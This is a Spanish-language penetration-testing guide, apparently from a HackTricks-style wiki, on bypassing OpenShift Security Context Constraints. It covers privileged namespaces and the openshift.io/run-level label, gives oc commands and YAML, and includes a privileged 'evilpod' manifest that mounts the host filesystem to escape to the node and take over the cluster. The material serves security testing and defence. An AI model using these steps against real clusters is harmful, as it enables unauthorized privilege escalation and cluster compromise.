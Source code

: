# Openshift - SCC bypass

**El autor original de esta página es** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces privilegiados

Por defecto, SCC no se aplica en los siguientes proyectos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Si despliegas pods dentro de uno de esos namespaces, no se aplicará SCC, lo que permitirá el despliegue de pods privilegiados o el montaje del sistema de archivos del host.

## Etiqueta de Namespace

Hay una manera de deshabilitar la aplicación de SCC en tu pod según la documentación de RedHat. Necesitarás tener al menos uno de los siguientes permisos:

- Crear un Namespace y Crear un Pod en este Namespace
- Editar un Namespace y Crear un Pod en este Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
La etiqueta específica `openshift.io/run-level` permite a los usuarios eludir los SCC para aplicaciones. Según la documentación de RedHat, cuando se utiliza esta etiqueta, no se aplican SCC a todos los pods dentro de ese espacio de nombres, eliminando efectivamente cualquier restricción.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Agregar Etiqueta

Para agregar la etiqueta en tu espacio de nombres:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para crear un espacio de nombres con la etiqueta a través de un archivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ahora, todos los nuevos pods creados en el namespace no deberían tener ningún SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En ausencia de SCC, no hay restricciones en la definición de tu pod. Esto significa que se puede crear fácilmente un pod malicioso para escapar al sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ahora, se ha vuelto más fácil escalar privilegios para acceder al sistema host y, posteriormente, tomar el control de todo el clúster, obteniendo privilegios de 'cluster-admin'. Busca la parte de **Node-Post Exploitation** en la siguiente página:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Etiquetas personalizadas

Además, según la configuración del objetivo, se pueden utilizar algunas etiquetas / anotaciones personalizadas de la misma manera que en el escenario de ataque anterior. Incluso si no están destinadas para ello, las etiquetas podrían usarse para otorgar permisos, restringir o no un recurso específico.

Intenta buscar etiquetas personalizadas si puedes leer algunos recursos. Aquí hay una lista de recursos interesantes:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Listar todos los espacios de nombres privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Explotación avanzada

En OpenShift, como se demostró anteriormente, tener permiso para desplegar un pod en un namespace con la etiqueta `openshift.io/run-level` puede llevar a una toma de control directa del clúster. Desde la perspectiva de la configuración del clúster, esta funcionalidad **no se puede desactivar**, ya que es inherente al diseño de OpenShift.

Sin embargo, medidas de mitigación como **Open Policy Agent GateKeeper** pueden prevenir que los usuarios establezcan esta etiqueta.

Para eludir las reglas de GateKeeper y establecer esta etiqueta para ejecutar una toma de control del clúster, **los atacantes necesitarían identificar métodos alternativos.**

## Referencias

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

